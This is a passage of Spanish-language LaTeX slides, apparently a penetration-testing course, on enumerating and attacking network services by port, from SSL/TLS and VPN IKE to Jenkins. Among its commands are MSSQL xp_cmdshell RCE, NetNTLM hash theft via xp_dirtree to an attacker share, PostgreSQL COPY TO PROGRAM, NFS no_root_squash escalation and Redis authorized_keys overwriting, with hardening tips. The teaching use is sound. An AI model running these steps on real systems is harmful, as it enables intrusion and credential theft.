% 443/TCP --- Certificados / SSL-TLS
% ====================================================================

\begin{frame}[allowframebreaks]{Certificados / SSL}
\small
  \begin{itemize}
  \item Funcionalidad: Cifrado
  \item Puertos: 443/TCP
  \item Vulnerabilidad: la enumeración de certificados SSL/TLS consiste en extraer información del certificado y de la configuración TLS para descubrir identidad del servidor, dominios, subdominios, autoridades certificadoras y posibles configuraciones débiles
  \item Explotación:
    \begin{itemize}
      \item \cmd{openssl s\_client -connect TARGET:443 -servername TARGET </dev/null} (Para mostrar directamente los datos del certificado)
      \item \cmd{openssl s\_client -connect TARGET:443 -servername TARGET </dev/null 2>/dev/null \textbar{} openssl x509 -noout -ext subjectAltName} (Enumerar dominios y subdominios: uno de los datos más interesantes es Subject Alternative Name (SAN))
      \item \cmd{nmap -p 443 -{}-script ssl-cert TARGET} (consultar información)
      \item \cmd{nmap -p 443 -{}-script ssl-enum-ciphers TARGET} (enumerar los algoritmos/cifrados soportados)
   \end{itemize}

  \item Evaluación de los protocolos SSL/TLS detectados:
        \begin{center}
        \footnotesize
        \begin{tabular}{ll}
          \toprule
          \textbf{Hallazgo} & \textbf{Situación} \\
          \midrule
          SSLv2 habilitado   & \textbf{Crítico/obsoleto} \\
          SSLv3 habilitado   & \textbf{Alto/obsoleto}, asociado a POODLE \\
          TLS 1.0 habilitado & Obsoleto \\
          TLS 1.1 habilitado & Obsoleto \\
          TLS 1.2 habilitado & Correcto \\
          TLS 1.3 habilitado & Recomendado \\
          \bottomrule
        \end{tabular}
        \end{center}
  \item Si encontramos algo como TLSv1.2, TLSv1.3 y SSLv3, el servidor está aceptando un protocolo obsoleto. SSLv2 es mucho más antiguo y OpenSSL moderno normalmente no permite realizar esta prueba directamente, porque el protocolo está deshabilitado.
  \item Para una auditoría TLS más completa, \href{https://github.com/testssl/testssl.sh}{testssl.sh} es una herramienta especialmente interesante
      \begin{itemize}
        \item \cmd{testssl.sh https://TARGET}
        \item permite recopilar: versiones TLS, cipher suites, certificados, algoritmos de firma, renegociación, vulnerabilidades conocidas, configuraciones inseguras
        \end{itemize}
      \item \href{https://github.com/rbsec/sslscan}{sslscan} es una herramienta de auditoría de servicios SSL/TLS que permite comprobar qué protocolos, algoritmos de cifrado y configuraciones criptográficas acepta un servidor. Es especialmente útil durante la enumeración de HTTPS, SMTPS, IMAPS, LDAPS, etc
      \begin{itemize}
      \item \cmd{sslscan TARGET:443}
      \item \cmd{sslscan -{}-nofail ip}
       \end{itemize}

    %\end{itemize}
  \item Debilidades en el sistema de cifrado que dan lugar a ataques conocidos:
    \begin{itemize}
    \item \href{https://heartbleed.com/}{Heartbleed} (CVE-2014-0160): fuga de memoria del servidor a través de la extensión heartbeat de OpenSSL. Detección: nmap -p 443 -{}-script ssl-heartbleed TARGET
    \item \href{https://www.openssl.org/news/secadv/20141015.txt}{POODLE} (CVE-2014-3566): descifrado del tráfico forzando la caída de la negociación a SSLv3. Detección: nmap -p 443 -{}-script ssl-poodle TARGET
    \end{itemize}
  \item Grupos de intercambio de claves (IKE) del servidor VPN IPsec. La enumeración consiste en averiguar qué parámetros de negociación acepta el servicio, especialmente las IKE Security Associations / propuestas criptográficas
  \item Explotación (IKE):
  \begin{itemize}
    \item \cmd{nmap -sU -p 500,4500 TARGET}
    \item \cmd{nmap -sU -p 500 -{}-script ike-version TARGET}
    \item \cmd{nmap -sU -p 500 -{}-script ike-version,ike-info TARGET} (El DH Group es el grupo de intercambio de claves Diffie-Hellman. Los grupos antiguos, especialmente 1 y 2, pueden considerarse débiles frente a alternativas modernas)
    \item \href{https://github.com/royhills/ike-scan}{ike-scan} TARGET
    \item \cmd{ike-scan -{}-trans=7,2,1,1 TARGET} (La enumeración permite identificar que el servidor acepta simultáneamente configuraciones modernas y antiguas)
  \end{itemize}
  \end{itemize}
\end{frame}

% ====================================================================
% 500 y 4500/UDP --- VPN IPsec (IKE)
% ====================================================================

\begin{frame}[allowframebreaks]{VPN (Virtual Private Network)}
\small
  \begin{itemize}
  \item Funcionalidad: Creación de túneles cifrados punto a punto.
  \item Puertos: 500/TCP, 500/UDP, 4500/TCP, 4500/UDP
  \item Vulnerabilidad: Modo Agresivo Habilitado.
  \item Permite obtener el hash DPD (PSK), con el que se puede obtener la clave en claro para conectarse directamente a la VPN sin usuario y contraseña. También se puede enumerar información como algoritmos de cifrado y hash, tipos de autentificación, algoritmos de distribución de claves, duración de las asociaciones, etc (básicamente todos los parámetros de IPSEC e ISAKMP)
  \item Explotación:
    \begin{itemize}

  \item \cmd{ike-scan -M -A -P [IP]}
  \item (Puede variar mucho el comando dependiendo del sistema)
  \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{VPN}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl014_1.png}
\end{center}
\end{frame}

% ====================================================================
% 513/UDP-TCP --- rwho / rlogin
% ====================================================================

\begin{frame}[allowframebreaks]{Rwho y rlogin}
\small
  \begin{itemize}
  \item Funcionalidad: \href{https://man7.org/linux/man-pages/man1/rwho.1.html}{rwho} es otra herramienta legacy de Unix/Linux para enumerar usuarios conectados, pero funciona de manera algo diferente a rusers. rwho muestra los usuarios que están conectados en los sistemas de la red que participan en el servicio rwhod
  \item Puertos: UDP/513. Ojo con una confusión habitual: el TCP/513 corresponde tradicionalmente a rlogin, mientras que UDP/513 corresponde a rwho/rwhod.
  \item Vulnerabilidad: Permite recopilar información como: usuario, hostname terminal, hora de inicio de sesión, actividad de la sesión.
  \item Explotación:
    \begin{itemize}
      \item \cmd{rwho -a}
      \item \cmd{rlogin 192.168.1.10}
      \item \cmd{rlogin -l usuario 192.168.1.10}
    \end{itemize}
  \end{itemize}
\end{frame}

% ====================================================================
% 873/TCP --- rsync
% ====================================================================

\begin{frame}[allowframebreaks]{rsync}
\small
  \begin{itemize}
  \item Funcionalidad: \href{https://rsync.samba.org/}{Rsync} es una herramienta/protocolo de sincronización de archivos muy utilizado en Linux/Unix para realizar copias, replicación y sincronización eficiente de directorios.
  \item Puertos: 873/TCP
  \item Vulnerabilidad: El interés principal está en comprobar qué módulos de rsync están publicados, quién puede acceder a ellos y qué permisos tienen
  \item Explotación:
 \begin{itemize}  
  \item Enumeración de módulos
  \item \cmd{nc <IP> 873}
  \item \cmd{nmap -{}-script rsync-list-modules -p873 <IP>}
  \item \cmd{rsync -av -{}-list-only rsync://<IP>/}
  \end{itemize}

  \item Acceso a los ficheros:
   \begin{itemize}  
  \item \cmd{rsync -av rsync://<IP>/modulo/ ./loot/ \# descargar el contenido}
  \item \cmd{rsync -av fichero rsync://<IP>/modulo/ \# subir} (si permite escritura)
  \item Muy a menudo los módulos permiten acceso ANÓNIMO de lectura/escritura $\rightarrow$ fuga de datos o RCE.
  \end{itemize}

  \end{itemize}
\end{frame}

% ====================================================================
% 1433/TCP --- MSSQL
% ====================================================================

\begin{frame}[allowframebreaks]{MSSQL}
\small
  \begin{itemize}
  \item Funcionalidad: Base de datos de Microsoft, omnipresente en entornos Windows/AD.
  \item Puertos: 1433/TCP (+ 1434/UDP browser)
  \item Vulnerabilidad: Credenciales débiles puedes acceder a toda la BBDD
  \item Explotación:
    \begin{itemize}
      \item \cmd{nmap -p1433 -{}-script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password <IP>}
      \item \href{https://github.com/fortra/impacket}{impacket-mssqlclient}: \cmd{impacket-mssqlclient usuario:pass@<IP> -windows-auth}
      \item \cmd{EXEC sp\_configure 'xp\_cmdshell',1; RECONFIGURE; EXEC xp\_cmdshell 'whoami' \# RCE}
      \item Robo de hash NetNTLM: EXEC xp\_dirtree \textbackslash{}\textbackslash{}atacante\textbackslash{}share ($\rightarrow$ relay/crack). Impersonation (EXECUTE AS) y linked servers para pivotar entre instancias.
  \end{itemize}
      \item Hardening: cuenta de servicio con mínimo privilegio, xp\_cmdshell deshabilitado, TLS forzado.
  \end{itemize}
\end{frame}

% ====================================================================
% 2049/TCP --- NFS
% ====================================================================

\begin{frame}[allowframebreaks]{NFS}
\small
  \begin{itemize}
  \item Funcionalidad: NFS (Network File System) es un protocolo que permite compartir sistemas de archivos entre máquinas, especialmente habitual en entornos Linux/Unix.
  \item Puertos: 2049/TCP (+ rpcbind 111)
  \item Vulnerabilidad: El objetivo principal es descubrir qué directorios están exportados, desde qué hosts se pueden montar y con qué opciones/permisos
  \item Explotación:
    \begin{itemize} 
      \item \cmd{showmount -e <IP> \# lista los exports}
      \item \cmd{nmap -{}-script nfs-ls,nfs-showmount,nfs-statfs -p111,2049 <IP>}
      \item Como NFS suele estar relacionado con RPC, puedes utilizar: rpcinfo -p TARGET
      \item Montar y leer: mkdir /mnt/nfs \&\& mount -t nfs <IP>:/export /mnt/nfs -o nolock
      \item Escalada de privilegios clásica:  Si un export tiene no\_root\_squash: montas, copias un binario SUID root desde tu equipo y lo ejecutas en la víctima $\rightarrow$ root.
  \end{itemize}

  \item Hardening: root\_squash, restringir por IP/subred en /etc/exports, NFSv4 con Kerberos.
  \end{itemize}
\end{frame}

% ====================================================================
% 3306/TCP --- MySQL
% ====================================================================

\begin{frame}[allowframebreaks]{MySQL (Sistema de Gestión de Bases de Datos)}
\small
  \begin{itemize}
  \item Funcionalidad: BBDD.
  \item Puertos: 3306/TCP
  \item Vulnerabilidad: Credenciales débiles puedes acceder a toda la BBDD
  \item Explotación:
    \begin{itemize}

  \item \cmd{mysql -h <hostname> -u root}
  \item \cmd{nmap -sV -p 3306 -{}-script mysql-audit,mysql-databases,\\
  mysql-dump-hashes,mysql-empty-password,mysql-enum,\\
  mysql-info,mysql-query,mysql-users,mysql-variables,\\
  mysql-vuln-cve2012-2122 <IP>}
  \end{itemize}
  \item Por defecto bind-address=127.0.0.1 $\rightarrow$ el 3306 sale closed (solo local). Si está expuesto: mysql -h <IP> -u root -p
\end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{MySQL}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl060_1.png}
\end{center}
\end{frame}

\begin{frame}{MySQL}
\centering

\includegraphics[width=\textwidth,height=0.88\textheight,keepaspectratio]{img/sl061_1.png}
\end{frame}

% ====================================================================
% 3389/TCP --- RDP
% ====================================================================

\begin{frame}[allowframebreaks]{RDP (Remote Desktop Protocol)}
\small
  \begin{itemize}
  \item Funcionalidad: Acceso al escritorio remoto
  \item Puertos: 3389/TCP
  \item Vulnerabilidad: Acceso al sistema con credenciales débiles
  \item Explotación:
    \begin{itemize}
    \item \href{https://github.com/CiscoCXSecurity/rdp-sec-check}{rdp-sec-check}: \cmd{rdp-sec-check.pl 10.0.0.94}
    \item \href{https://github.com/skorov/rduserenum}{rduserenum}: \cmd{rduserenum 192.168.1.100}
    \item \href{https://github.com/fortra/impacket}{rdp\_check}: Herramienta dentro de la suite de impacket. Permite comprobar si una cuenta (contraseña o hash) es válida contra un servidor RDP, si requiere Network Level Authentication (NLA), e información básica sobre la configuración RDP.
    \begin{itemize}
    \item \cmd{rdp\_check <domain>/<name>:<password>@<IP>}
    \item \cmd{rdp\_check -hashes <LM>:<NT> <domain>/<name>@<IP>}
    \end{itemize}
    \item \cmd{nmap -{}-script \textquotedbl{}rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info\textquotedbl{} -p 3389 -T4 <IP>}
    \end{itemize}
  \end{itemize}
\end{frame}

% ====================================================================
% 5060/UDP --- VoIP (SIP)
% ====================================================================

\begin{frame}[allowframebreaks]{VoIP (protocolo SIP, Session Initiation Protocol)}
\small
  \begin{itemize}
  \item Funcionalidad: Transmisión de video y voz sobre IP.
  \item Puertos: 5060/UDP y 5060/TCP (SIP); 5061/TCP (SIP sobre TLS)
  \item Vulnerabilidad: Si está mal configurado se podría enumerar gateways/servidores, sistemas IP-PBX, software instalado en los clientes, teléfonos VoIP, User-Agent, direcciones IPs, extensiones de los usuarios
  \item ¿Qué es SIP? Es uno de los protocolos utilizados para establecer y gestionar comunicaciones VoIP. svmap envía mensajes SIP y observa las respuestas.
  \item Svmap: Sirve para enumeración y descubrimiento de dispositivos/servidores SIP (VoIP). Forma parte del conjunto SIPVicious y se utiliza para identificar qué hosts tienen un servicio SIP accesible y obtener información básica sobre ellos
  \item Explotación:
    \begin{itemize}
  \item \href{https://github.com/EnableSecurity/sipvicious}{Svmap}: \cmd{svmap 192.168.1.0/24}
  \item \cmd{nmap -{}-script=sip-methods -sU -p 5060 <targets>}
  \item \cmd{nmap -{}-script=sip-enum-users -sU -p 5060 <targets>}
  \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{VoIP}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl050_1.png}
\end{center}
\end{frame}

% ====================================================================
% 5432/TCP --- PostgreSQL
% ====================================================================

\begin{frame}[allowframebreaks]{PostgreSQL}
\small
  \begin{itemize}
  \item Funcionalidad: PostgreSQL es un sistema gestor de bases de datos relacional (RDBMS), utilizado para almacenar datos estructurados en bases de datos, esquemas, tablas y registros.
  \item Puertos: 5432/TCP
  \item Vulnerabilidad: dependiendo de la configuración, la enumeración puede revelar: Versión, Bases de datos, Esquemas, Tablas, Usuarios/roles, Privilegios, Configuración
  \item Explotación:
    \begin{itemize}
      \item \cmd{nmap -p 5432 -{}-script pgsql-info TARGET}
      \item \cmd{nmap -{}-script pgsql-brute -p5432 <IP>}
      \item \href{https://www.postgresql.org/docs/current/app-psql.html}{psql}: \cmd{psql -h TARGET -U usuario -d basedatos}
      \item Credenciales débiles (postgres/postgres). 
      \item Metasploit: postgres\_login, postgres\_hashdump, postgres\_sql.
      \item \cmd{COPY t TO PROGRAM 'id' \# RCE si eres superuser}
    \end{itemize}
  \item Hardening: pg\_hba.conf restrictivo, contraseñas fuertes, no exponer.
  \end{itemize}
\end{frame}

% ====================================================================
% 5900/TCP --- VNC
% ====================================================================

\begin{frame}[allowframebreaks]{VNC (Virtual Network Computing)}
\small
  \begin{itemize}
  \item Funcionalidad: Compartir el escritorio de manera remota.
  \item Puertos: 5900/TCP
  \item Vulnerabilidad: Acceso al sistema con credenciales débiles
  \item Explotación:
    \begin{itemize}
    \item \href{https://tigervnc.org/}{vncviewer}: \cmd{vncviewer [-passwd passwd.txt] <IP>::5901}
    \item \cmd{nmap -sV -{}-script vnc-info,realvnc-auth-bypass,vnc-title -p <PORT> <IP>}
    \end{itemize}
  \end{itemize}
\end{frame}

\begin{frame}{VNC}
\begin{columns}[c]
  \begin{column}{0.49\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.72\textheight,keepaspectratio]{img/sl064_1.png}
    \end{center}
  \end{column}
  \begin{column}{0.49\textwidth}
    \begin{center}
\includegraphics[width=\textwidth,height=0.72\textheight,keepaspectratio]{img/sl064_2.png}
    \end{center}
  \end{column}
\end{columns}
\end{frame}

% ====================================================================
% 5985-5986/TCP --- WinRM
% ====================================================================

\begin{frame}[allowframebreaks]{WinRM}
\small
  \begin{itemize}
  \item Funcionalidad: es el servicio de administración remota de Windows basado en WS-Management. Se utiliza para administrar sistemas Windows remotamente, ejecutar tareas y obtener información del sistema. Gestión remota de Windows (PowerShell Remoting).
  \item Puertos: 5985/TCP (HTTP) $\cdot$ 5986 (HTTPS)
  \item Vulnerabilidad: La enumeración busca conocer principalmente si está habilitado, qué versión/configuración utiliza, si requiere HTTPS y qué métodos de autenticación admite
  \item Explotación:
    \begin{itemize} 
      \item \cmd{nmap -p5985,5986 <IP>}
      \item \cmd{nmap -p 5985 -{}-script http-title,http-headers TARGET}
      \item \cmd{nmap -p 5985,5986 -{}-script http-auth-finder TARGET}
    \end{itemize}

  \item Si dispones de credenciales autorizadas $\rightarrow$ shell interactiva.
  \item Una herramienta muy habitual es \href{https://github.com/Hackplayers/evil-winrm}{Evil-WinRM}. Por ejemplo:
  \begin{itemize}
    \item \cmd{evil-winrm -i TARGET -u usuario -p 'PASSWORD'}
    \item \cmd{nxc winrm <IP> -u <user> -p <pass> \# validar credenciales}
  \end{itemize}  

  \item Hardening: no exponer 5985/5986, usar HTTPS, restringir usuarios.
  \end{itemize}
\end{frame}

% ====================================================================
% 6379/TCP --- Redis
% ====================================================================

\begin{frame}[allowframebreaks]{Redis}
\small
  \begin{itemize}
  \item Funcionalidad: Almacén clave-valor en memoria (NoSQL), muy utilizado como caché y como infraestructura para aplicaciones.
  \item Puertos: 6379/TCP 
  \item Vulnerabilidad: dependiendo de la configuración, se puede revelar: Versión, Configuración, Bases de datos, Claves, Clientes conectados, Replicación, Información del servidor
  \item Explotación:
    \begin{itemize}
  \item \cmd{nmap -p 6379 -{}-script redis-info TARGET}
  \item A menudo SIN autenticación por defecto $\rightarrow$ acceso total.
  \item \href{https://redis.io/docs/latest/develop/tools/cli/}{redis-cli}: \cmd{redis-cli -h <IP>} $\rightarrow$ \cmd{INFO} $\cdot$ \cmd{CONFIG GET *} $\cdot$ \cmd{INFO keyspace}
      \end{itemize}

  \item Ataque Sin auth: 
    \begin{itemize}
  \item leer/escribir claves
  \item RCE clásico: escribir una clave SSH en \textasciitilde{}/.ssh/authorized\_keys 
  \item CONFIG SET dir /root/.ssh $\cdot$ CONFIG SET dbfilename authorized\_keys
  \item Abusar de módulos/cron.
    \end{itemize}

  \item Hardening: requirepass, protected-mode, bind 127.0.0.1, rename-command.


  \end{itemize}
\end{frame}

% ====================================================================
% 8080/TCP --- Jenkins
% ====================================================================

\begin{frame}{Jenkins}
   \begin{itemize} 
    \item Funcionalidad: \href{https://www.jenkins.io/}{Jenkins} es una plataforma de automatización de procesos CI/CD. Se integra con Git, Docker, Kubernetes, Maven y numerosas herramientas. 
    \item Puertos: 8080/TCP (http) y 8443/TCP (https)
    \item Vulnerabilidad: consiste en recopilar información sobre una instancia Jenkins y sobre la infraestructura de CI/CD que gestiona. Identificar la instancia, su versión, recursos, configuración y la información que puede revelar sobre la infraestructura CI/CD. 
     \item Explotación:
     \begin{itemize} 
    \item El primer paso consiste en determinar si el servicio corresponde a Jenkins:\\
 \cmd{whatweb http://TARGET:8080/}
        \item Identificar el producto y, si es posible, su versión.

  \end{itemize} 
  \end{itemize} 
  \vspace{0.4cm} 
\end{frame} 

\begin{frame}{Jenkins} 
\small
   \begin{itemize} 
  \item También pueden analizarse: 
  \begin{itemize} 
    \item Cabeceras HTTP. \item Cookies. \item Código HTML. \item JavaScript. \item Favicon. \item Recursos característicos de Jenkins. \end{itemize} 
     
\end{itemize} 
 \end{frame} 

\begin{frame}[fragile]{Jenkins}
  \small
   \begin{itemize} 
  \item Descubrimiento de endpoints. Puede utilizarse enumeración web para descubrir recursos: 
  \cmd{gobuster dir -u http://TARGET:8080/ -w wordlist.txt}
  \item Que un endpoint exista no significa que sea accesible sin autenticación o que el usuario tenga permisos sobre él.
  \item Endpoints potencialmente interesantes:
  \begin{columns}
    \column{0.48\textwidth}
    \begin{itemize}
      \item \cmd{/login}
      \item \cmd{/job/}
      \item \cmd{/view/}
      \item \cmd{/user/}
    \end{itemize}
    \column{0.48\textwidth}
    \begin{itemize}
      \item \cmd{/computer/}
      \item \cmd{/api/}
      \item \cmd{/manage}
    \end{itemize}
  \end{columns}
 \end{itemize} 
\end{frame} 

\begin{frame}{Jenkins} 
\small
   \begin{itemize} 
    \item Enumeración mediante la API. Jenkins dispone de una API que permite consultar información de forma estructurada. \cmd{http://TARGET:8080/api/json}
    \item También pueden existir APIs asociadas a recursos concretos:
     \begin{center}\cmd{/job/NOMBRE/api/json /computer/api/json /user/NOMBRE/api/json}\end{center} \vspace{0.3cm} 
    \item La API permite obtener información estructurada sin depender de la interpretación de la interfaz web 
    \end{itemize} 
  \end{frame}   

\begin{frame}{Jenkins} 
  \small
     \begin{itemize} 
      \item Enumeración de usuarios. Dependiendo de la configuración, Jenkins puede permitir identificar usuarios. 
      \item Endpoint:\cmd{/user/} 
      \item Posibles nombres identificados: \begin{center}\cmd{admin developer jenkins builduser}\end{center} \vspace{0.3cm} 
      \item Identificar un usuario no implica disponer de sus credenciales ni de permisos sobre sus recursos. 
          \end{itemize} 
    \end{frame} 

\begin{frame}{Jenkins} 
    \small
     \begin{itemize} 
      \item Enumeración de plugins. Jenkins utiliza plugins para ampliar sus funcionalidades. \vspace{0.3cm} Ejemplos: \begin{itemize} \item Git. \item Pipeline. \item Docker. \item Maven. \item Kubernetes. \end{itemize} \vspace{0.3cm} Interesa identificar: \begin{itemize} \item Nombre del plugin. \item Versión. \item Funcionalidad. \item Vulnerabilidades conocidas.
       \end{itemize} 
                 \end{itemize} 

      \end{frame} 

  \begin{frame}{Jenkins} 
    Flujo general de enumeración
    \begin{center} \resizebox{!}{0.76\textheight}{
\begin{tikzpicture}[node distance=0.75cm] \node (a) [draw, rounded corners] {Identificación}; \node (b) [draw, rounded corners, below=of a] {Versión}; \node (c) [draw, rounded corners, below=of b] {Endpoints}; \node (d) [draw, rounded corners, below=of c] {API}; \node (e) [draw, rounded corners, below=of d] {Jobs / Pipelines}; \node (f) [draw, rounded corners, below=of e] {Agents / Users}; \node (g) [draw, rounded corners, below=of f] {Plugins}; \node (h) [draw, rounded corners, below=of g] {Configuración}; \node (i) [draw, rounded corners, below=of h] {Vulnerabilidades}; \draw[->] (a) -- (b); \draw[->] (b) -- (c); \draw[->] (c) -- (d); \draw[->] (d) -- (e); \draw[->] (e) -- (f); \draw[->] (f) -- (g); \draw[->] (g) -- (h); \draw[->] (h) -- (i); \end{tikzpicture}} \end{center} 
  \end{frame} 

% ====================================================================
% 27017/TCP --- MongoDB
% ====================================================================

\begin{frame}[allowframebreaks]{MongoDB}
\small
  \begin{itemize}
